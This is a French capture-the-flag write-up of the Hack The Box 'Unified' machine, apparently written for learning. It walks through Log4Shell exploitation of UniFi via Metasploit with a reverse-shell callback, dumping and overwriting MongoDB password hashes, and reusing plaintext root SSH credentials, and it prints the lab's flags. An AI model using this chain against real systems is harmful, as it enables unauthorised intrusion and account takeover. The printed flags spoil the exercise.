









> Plateforme : **Hack The Box** — Starting Point (Tier 2)

## Informations

- **Catégorie :** Web (Log4Shell) → MongoDB → réutilisation de credential
- **Difficulté :** Easy
- **Auteur du write-up :** 3ch0
- **Services :** `22` (SSH), `8080/8443/8843/8880` (UniFi Network — Apache Tomcat)
- **Flag user :** `6ced1a6a89e666c0620cdb10262ba127`
- **Flag root :** `e50bc93c75b634e4b272d2f771c33681`

---

## 1. Reconnaissance

```bash
nmap -sC -sV -p- -T4 10.129.11.156
```

```text
22/tcp   open  ssh      OpenSSH 8.2p1 Ubuntu
6789/tcp open  ibm-db2-admin?
8080/tcp open  http     Apache Tomcat
8443/tcp open  ssl/http UniFi Network   (redirige vers /manage/account/login)
8843/tcp open  ssl/http Apache Tomcat
8880/tcp open  http     Apache Tomcat
```

Le port **8443** sert l'interface **UniFi Network** (console Ubiquiti de gestion d'équipements). La page de login affiche la version : **6.4.54**.





Cette version est vulnérable à **CVE-2021-44228 (Log4Shell)** — une injection JNDI via Log4j menant à une RCE non authentifiée.

---

## 2. Exploitation — Log4Shell (RCE)

Exploitation via le module Metasploit dédié :

```text
msf > use exploit/multi/http/ubiquiti_unifi_log4shell
msf > set RHOSTS 10.129.11.156
msf > set LHOST 10.10.15.244
msf > exploit
```

```text
[+] The target is vulnerable. The target is running a vulnerable version
[+] Delivering the serialized Java object to execute the payload...
[*] Command shell session 1 opened
id
uid=999(unifi) gid=999(unifi) groups=999(unifi)
```



Shell obtenu en tant que **`unifi`** (compte de service).

### Flag user

```bash
cat /home/michael/user.txt
```

```text
6ced1a6a89e666c0620cdb10262ba127
```

---

## 3. MongoDB UniFi → hashs des comptes

UniFi stocke ses données dans une **MongoDB locale** sur le port **27117**. Le client est présent :

```bash
which mongo        # /usr/bin/mongo
mongo --port 27117 ace
```

On extrait les comptes de la collection `admin` :

```javascript
db.admin.find().forEach(printjson)
```

```text
name: administrator   x_shadow: $6$Ry6Vdbse$8enMR5...
name: michael         x_shadow: $6$spHwHYVF$mF/VQr...
...
```







Les `x_shadow` sont des hashs **SHA-512 crypt** (`$6$`). Les cracker serait lent — mais on a un **accès en écriture** à la base : inutile de casser quoi que ce soit.

---

## 4. Écrasement du mot de passe administrator

On génère notre propre hash `$6$` :

```bash
openssl passwd -6 password
# $6$V3oeGjCOB1Spmglu$7meUMGjH83Lwal2YzsJnSbGTgDJfeWpmnVc3q00FvTIfjOid.rru0IctQLBxLBMlKDFqfcJra4PS16ZjnejHj.
```

Puis on remplace le `x_shadow` du compte `administrator` par ce hash :

```javascript
db.admin.update(
  { "name" : "administrator" },
  { $set : { "x_shadow" : "$6$V3oeGjCOB1Spmglu$7meUMGjH83Lwal2YzsJnSbGTgDJfeWpmnVc3q00FvTIfjOid.rru0IctQLBxLBMlKDFqfcJra4PS16ZjnejHj." } }
)
```

(`nMatched: 1, nModified: 1`) → on se connecte ensuite à l'interface web avec `administrator` / `password` :

```text
https://10.129.11.156:8443/manage
```



---

## 5. Credentials SSH dans les paramètres UniFi

Une console qui gère des équipements réseau doit stocker de quoi **s'y connecter**. Dans **Settings → Site**, section **Device Authentication**, l'authentification SSH est activée avec des identifiants en clair :

```text
username : root
password : NotACrackablePassword4U2022
```



---

## 6. Accès root

Ces identifiants sont réutilisés pour le compte système **root** → connexion SSH directe :

```bash
ssh root@10.129.11.156      # NotACrackablePassword4U2022
```

```text
root@unified:~# cat /root/root.txt
e50bc93c75b634e4b272d2f771c33681
```



**Flag root :** `e50bc93c75b634e4b272d2f771c33681`

---

## Récapitulatif de la chaîne

1. **nmap** → UniFi Network **6.4.54** sur 8443.
2. **Log4Shell (CVE-2021-44228)** → RCE en `unifi` → flag user.
3. **MongoDB** locale (27117) → dump des `x_shadow`.
4. Accès **écriture** mongo → **écrasement** du mot de passe `administrator` (pas de crack).
5. Login UniFi admin → **Device Authentication** : identifiants SSH `root` en clair.
6. **SSH root** (credential réutilisé) → flag root.

> **Concept clé :** Unified enchaîne une vulnérabilité célèbre et deux fautes de conception. (1) **Log4Shell** : un champ loggé par Log4j (ici l'en-tête de login) qui interprète une chaîne `${jndi:ldap://…}` déclenche une résolution JNDI et charge une classe Java distante → RCE non authentifiée ; toute version de Log4j 2.x < 2.16 exposée à une entrée utilisateur est concernée. (2) La base **MongoDB** d'UniFi n'exige pas d'authentification en local et autorise l'**écriture** : plutôt que de cracker un `$6$` (lent), on réécrit directement le hash d'un compte — contrôler l'écriture d'une base d'authentification équivaut à contrôler les comptes. (3) Enfin, la console stocke des **identifiants d'administration d'équipements en clair** (SSH root), réutilisés pour le compte système : un secret applicatif qui ouvre le système d'exploitation. Défenses : patcher Log4j, isoler/authentifier la base, et ne jamais réutiliser entre une appli et un compte root un mot de passe stocké en clair.

---

_**— 3ch0**_
